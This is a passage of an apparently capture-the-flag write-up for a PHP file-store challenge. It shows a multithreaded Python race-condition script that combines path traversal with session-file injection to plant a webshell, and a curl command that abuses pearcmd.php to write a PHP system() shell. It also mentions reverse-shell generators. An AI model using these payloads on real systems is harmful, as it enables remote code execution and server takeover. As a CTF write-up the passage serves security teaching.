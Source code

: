 ```python

def execute_payload2():
    while True:
        print("execute payload2")
        r = requests.get(f"{HOST}/cmd?echo+'win'&f=../../../../../../../tmp/webshell.php") # confirm that execute_payload1() successfully executed our RCE and created our webshell
        if 'win' in r.text:
            print("Nice")
            os._exit(0)

import _thread


_thread.start_new_thread(create_sess_file, ())
_thread.start_new_thread(create_sess_file, ())
_thread.start_new_thread(create_sess_file, ())
_thread.start_new_thread(create_sess_file, ())
_thread.start_new_thread(create_sess_file, ())
_thread.start_new_thread(create_sess_file, ())

_thread.start_new_thread(execute_payload1, ())
_thread.start_new_thread(execute_payload1, ())
_thread.start_new_thread(execute_payload1, ())

_thread.start_new_thread(execute_payload2, ())
_thread.start_new_thread(execute_payload2, ()) # running multiple requests in multi threads to make the session and catch it to get past the race condition

while 1:
    pass

```
So I added comments to it to explain different parts but the script idea is it tries to create a session file by uploading this randomfile and while it is there it injects command to download a webshell in `/tmp`{: .filepath} and when that command gets executed we get our webshell, after we get that webshell we can either upload fully featured webshell like [monkeypentest](https://github.com/jivoi/pentest/blob/master/shell/rshell.php) one or we try to keep it as it is.

##### 3.Exploiting pearcmd.php 

As explained in this tweet from [phithon_xg](https://twitter.com/phithon_xg/status/1455534506744717323/photo/1), we can exploit the preinstalled `pearcmd.php`{: .filepath} in the official PHP Docker image to gain arbitrary file write. For instance, we can use the following command to write our payload in the _shell.php_ file located in the tmp folder:

```bash
curl "https://filestore.web.actf.co/?f=../../../../usr/local/lib/php/pearcmd.php&+-c+/tmp/shell.php+-d+man_dir=<?echo(system(\$_GET\['cmd'\]));?>+-s+"
```
Before gaining access, we need to set up a reverse shell, We can generate our payload using a website like [revshells](https://www.revshells.com/)
